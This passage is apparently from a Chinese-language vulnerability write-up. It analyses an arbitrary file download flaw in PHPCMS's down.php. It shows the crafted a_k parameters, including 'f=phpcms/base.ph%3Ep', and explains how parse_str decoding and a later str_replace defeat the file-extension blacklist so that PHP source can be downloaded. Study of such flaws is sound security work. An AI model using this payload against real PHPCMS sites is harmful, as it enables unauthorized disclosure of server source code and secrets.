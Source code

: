 
此時的 $a_k 是經過 另一個$pc_auth_key 加密的 最後請求 ?m=content&c=down&a=download&a_k=xxxxxx

所以進入到download 函數
phpcms/modules/content/down.php


函數也很長我大概說明一下:
```

解密 $a_k 

i=1
m=1
modelid=1

f=phpcms/base.ph%3Ep

d=1 
catid=1



//危險函數parse_str 自動 url decode
parse_str($a_k);


i=1
m=1
modelid=1

//關鍵%3E 變成 >
f=phpcms/base.ph>p

d=1 
catid=1


```

這樣的變數設置，不但繞過後綴檔名
f會給 fileurl=phpcms/base.ph>p
```
if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));
```

最後還幫我們消掉了>
```
$fileurl = str_replace(array('<','>'), '',$fileurl);


$fileurl = phpcms/base.php

```

最後進入到下載 phpcms/base.php  大功告成。









心得:真心覺得作者很厲害，需要熟悉流程，還要構造正確payload。

這個 payload 如果你自己構造的話，過程會很痛苦，但能學到很多，方法大概是先從 download 函數開刀，注解掉大部分沒用的區塊，然後反推，看能不能利用。

總之利用好phpstorm 直接亂給值，慢慢測大概是我能想到的快速理解payload 方式。